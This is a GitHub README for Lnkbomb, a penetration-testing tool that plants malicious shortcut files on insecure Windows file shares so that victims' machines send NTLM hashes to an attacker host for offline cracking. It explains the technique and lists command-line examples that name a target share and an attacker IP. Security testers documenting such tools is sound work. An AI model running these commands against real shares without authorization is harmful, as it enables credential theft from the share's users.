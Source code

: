 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

## Usage
Installing Lnkbomb

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)```

```-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)```

Examples of full commands include:

```python3 lnkbomb.py -t \\192.168.1.1\Share -a 192.168.1.2```

```python3 lnkbomb.py -r randomfilegenerated.recover```

### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
